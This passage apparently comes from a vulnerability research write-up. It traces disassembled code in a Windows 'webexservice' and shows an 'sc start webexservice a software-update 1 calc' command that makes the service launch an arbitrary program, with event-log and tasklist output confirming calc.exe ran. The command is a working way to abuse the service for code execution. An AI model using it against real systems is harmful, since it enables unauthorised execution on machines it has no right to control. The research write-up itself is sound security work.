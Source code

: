 
A little bit after, in the same function, we see this code:

<pre>  <span class="Statement">.text</span>:<span class="Number">004026A2</span>                 <span class="Identifier">push</span>    <span class="Identifier">eax</span>             <span class="Comment">; EndPtr</span>
  <span class="Statement">.text</span>:<span class="Number">004026A3</span>                 <span class="Identifier">push</span>    <span class="Identifier">esi</span>             <span class="Comment">; Str</span>
  <span class="Statement">.text</span>:<span class="Number">004026A4</span>                 <span class="Identifier">call</span>    <span class="Identifier">ds</span>:<span class="Identifier">wcstod</span> <span class="Comment">; &lt;--</span>
  <span class="Statement">.text</span>:<span class="Number">004026AA</span>                 <span class="Identifier">add</span>     <span class="Identifier">esp</span>, <span class="Number">8</span>
  <span class="Statement">.text</span>:<span class="Number">004026AD</span>                 <span class="Identifier">fstp</span>    [<span class="Identifier">esp</span>+<span class="Number">0B</span><span class="Number">4h</span>+<span class="Identifier">var_90</span>]
  <span class="Statement">.text</span>:<span class="Number">004026B1</span>                 <span class="Identifier">cmp</span>     <span class="Identifier">esi</span>, [<span class="Identifier">esp</span>+<span class="Number">0B</span><span class="Number">4h</span>+<span class="Identifier">EndPtr</span>+<span class="Number">4</span>]
  <span class="Statement">.text</span>:<span class="Number">004026B5</span>                 <span class="Identifier">jnz</span>     <span class="Identifier">short</span> <span class="Identifier">loc_4026C2</span>
  <span class="Statement">.text</span>:<span class="Number">004026B7</span>                 <span class="Identifier">push</span>    <span class="Identifier">offset</span> <span class="Identifier">aInvalidStodArg</span> <span class="Comment">; &amp;quot;invalid stod argument&amp;quot;</span>
  <span class="Statement">.text</span>:<span class="Number">004026BC</span>                 <span class="Identifier">call</span>    <span class="Identifier">ds</span>:?<span class="Identifier">_Xinvalid_argument</span>@<span class="Identifier">std</span>@@<span class="Identifier">YAXPBD</span>@<span class="Identifier">Z</span> <span class="Comment">; std::_Xinvalid_argument(char const *)</span>
</pre>
The line with an error - <tt>wcstod()</tt> is close to where the <tt>abort()</tt> happened. I'll spare you the debugging details - debugging a service was non-trivial - but I really should have seen that function call before I got off track.

I looked up <tt>wcstod()</tt> online, and it's another of Microsoft's cleverly named functions. This one converts a string to a number. If it fails, the code references something called <tt>std::_Xinvalid_argument</tt>. I don't know exactly what it does from there, but we can assume that it's looking for a number somewhere.

This is where my advice becomes "be lucky". The reason is, the only number that will actually work here is "1". I don't know why, or what other numbers do, but I ended up calling the service with the commandline:
<pre><span class="rubyConstant">C</span>:\<span class="rubyConstant">Users</span>\ron&gt;sc start webexservice a software-update <span class="Number">1</span> <span class="Number">2</span> <span class="Number">3</span> <span class="Number">4</span> <span class="Number">5</span> <span class="Number">6</span>
</pre>
And checked the event log:
<pre>  StartUpdateProcess::CreateProcessAsUser:1;1;2 3 4 5 6(18).
</pre>
That looks awfully promising! I changed <tt>2</tt> to an actual process:
<pre>  <span class="rubyConstant">C</span>:\<span class="rubyConstant">Users</span>\ron&gt;sc start webexservice a software-update <span class="Number">1</span> calc c d e f
</pre>
And it opened!
<pre><span class="rubyConstant">C</span>:\<span class="rubyConstant">Users</span>\ron&gt;tasklist | find <span class="rubyStringDelimiter">"</span><span class="String">calc</span><span class="rubyStringDelimiter">"</span>
calc.exe                      <span class="Number">1476</span> <span class="rubyConstant">Console</span>                    <span class="Number">1</span>     <span class="Number">10</span>,<span class="Number">804</span> <span class="rubyConstant">K</span>
</pre>